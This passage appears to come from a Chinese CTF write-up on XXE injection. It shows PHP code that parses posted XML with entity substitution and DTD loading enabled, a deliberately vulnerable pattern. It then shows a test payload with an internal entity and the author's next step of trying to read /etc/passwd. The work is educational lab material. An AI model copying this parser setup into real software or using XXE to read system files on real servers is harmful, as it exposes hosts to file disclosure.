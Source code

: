 ```php
#鍏抽棴Warning
error_reporting(E_ALL^E_NOTICE^E_WARNING);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);

$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;

echo "CTF:" . "<br>" . "$user";
?>
```
POST上去一个xxe的payload
```xml
<?xml version="1.0"?>
<!DOCTYPE note[
<!ELEMENT note (user)>
<!ENTITY hack3r "Hu3sky">
]>
<note>
<user>&hack3r;</user>
</note>
```
![](/img/2019-09-11/img_6.png)
成了，有戏，试着读了一下`/etc/passwd`文件